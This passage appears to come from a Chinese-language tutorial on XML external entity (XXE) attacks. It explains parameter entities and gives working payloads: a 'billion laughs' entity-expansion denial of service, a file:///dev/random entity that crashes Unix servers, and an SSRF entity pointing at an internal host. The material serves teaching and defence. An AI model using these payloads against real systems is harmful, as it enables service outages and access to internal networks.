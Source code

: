 **抛转：**

参数实体在我们 Blind XXE 中起到了至关重要的作用。

### 0x01 漏洞利用

#### 文件访问

借助这个漏洞可以实现本地敏感文件访问。

#### DOS攻击

##### 第一种 DOS 攻击

ps. 严格地说，这一种攻击只能算**内部XML 实体攻击**，不算 XXE (外部实体攻击).

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz >
```

很显然，每个 loln+1 都包含相同个数的 loln，对应的字符串指数级的增长. 以上例，一旦使用 `&lol9;`，就会占用 3GB 左右的内存，导致服务器内存超出而崩溃。

##### 第二种 DOS 攻击

这种攻击主要针对 Unix/类Unix 服务器. 如果 XML 解析器尝试使用 /dev/random 文件中的内容来替代实体，则此示例会使服务器（使用 UNIX 系统）崩溃。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///dev/random" >]>
<foo>&xxe;</foo>
```

#### SSRF

> 服务器端请求伪造 (Server-side request forgery, SSRF) 是只攻击者利用漏洞使得服务器端的应用连接到攻击者设定的地址.
>
> 一般地，攻击者会让被攻击的服务器访问自身，或者与服务器位于同一防火墙内的服务器，或外部第三方服务器.
>
> 成功的服务器端请求伪造通常会导致攻击者访问（同一机构或自身）敏感数据或敏感应用，某些情况下，还可能导致任意指令执行.

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.xxx.com/"> ]>
```
